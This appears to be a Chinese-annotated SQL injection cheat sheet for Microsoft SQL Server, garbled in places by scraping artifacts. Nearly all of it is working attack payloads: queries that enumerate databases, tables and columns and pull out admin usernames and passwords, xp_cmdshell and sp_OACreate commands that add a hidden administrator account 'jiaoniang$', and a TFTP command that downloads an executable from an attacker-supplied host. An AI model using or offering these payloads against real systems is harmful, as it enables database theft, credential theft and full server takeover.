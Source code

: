 	
	爆库 特殊_blank>技巧：:%5c=\ 或者把/和\ 修改%5提交
	and 0<>(select top 1 paths from newtable)--
	
	得到库名（从1到5都是系统的id，6以上才可以判断）
	and 1=(select name from master.dbo.sysdatabases where dbid=7)--
	and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6)
	依次提交 dbid = 7,8,9.... 得到更多的_blank>数据库名
	
	and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U) 暴到一个表 假设为 admin
	and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U and name not in (Admin)) 来得到其他的表。
	and 0<>(select count(*) from bbs.dbo.sysobjects where xtype=U and name=admin
	and uid>(str(id))) 暴到UID的数值假设为18779569 uid=id
	and 0<>(select top 1 name from bbs.dbo.syscolumns where id=18779569) 得到一个admin的一个字段,假设为 user_blank>_id
	and 0<>(select top 1 name from bbs.dbo.syscolumns where id=18779569 and name not in
	(id,...)) 来暴出其他的字段
	and 0<(select user_blank>_id from BBS.dbo.admin where username>1) 可以得到用户名
	依次可以得到_blank>密码。。。。。假设存在 user_blank>_id username ,password 等字段
	
	and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6)
	and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U) 得到表名
	and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U and name not in(Address))
	and 0<>(select count(*) from bbs.dbo.sysobjects where xtype=U and name=admin and uid>(str(id))) 判断id值
	and 0<>(select top 1 name from BBS.dbo.syscolumns where id=773577794) 所有字段
	
	?id=-1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,* from admin
	?id=-1 union select 1,2,3,4,5,6,7,8,*,9,10,11,12,13 from admin (union，access也好用)
	
	得到WEB路径
	;create table [dbo].[swap] ([swappass][char](255));--
	and (select top 1 swappass from swap)=1--
	;Create TABLE newtable(id int IDENTITY(1,1),paths varchar(500)) Declare @test varchar(20) exec master..xp_blank>_regread @rootkey=HKEY_blank>_LOCAL_blank>_MACHINE, @key=SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots\, @value_blank>_name=/, values=@test OUTPUT insert into paths(path) values(@test)--
	;use ku1;--
	;create table cmd (str image);-- 建立image类型的表cmd
	
	存在xp_blank>_cmdshell的测试过程：
	;exec master..xp_blank>_cmdshell dir
	;exec master.dbo.sp_blank>_addlogin jiaoniang$;-- 加SQL帐号
	;exec master.dbo.sp_blank>_password null,jiaoniang$,1866574;--
	;exec master.dbo.sp_blank>_addsrvrolemember jiaoniang$ sysadmin;--
	;exec master.dbo.xp_blank>_cmdshell net user jiaoniang$ 1866574 /workstations:* /times:all /passwordchg:yes /passwordreq:yes /active:yes /add;--
	;exec master.dbo.xp_blank>_cmdshell net localgroup administrators jiaoniang$ /add;--
	exec master..xp_blank>_servicecontrol start, schedule 启动_blank>服务
	exec master..xp_blank>_servicecontrol start, server
	; DECLARE @shell INT EXEC SP_blank>_OACreate wscript.shell,@shell OUTPUT EXEC SP_blank>_OAMETHOD @shell,run,null, C：\WINNT\system32\cmd.exe /c net user jiaoniang$ 1866574 /add
	;DECLARE @shell INT EXEC SP_blank>_OACreate wscript.shell,@shell OUTPUT EXEC SP_blank>_OAMETHOD @shell,run,null, C：\WINNT\system32\cmd.exe /c net localgroup administrators jiaoniang$ /add
	; exec master..xp_blank>_cmdshell tftp -i youip get file.exe-- 利用TFTP上传文件
	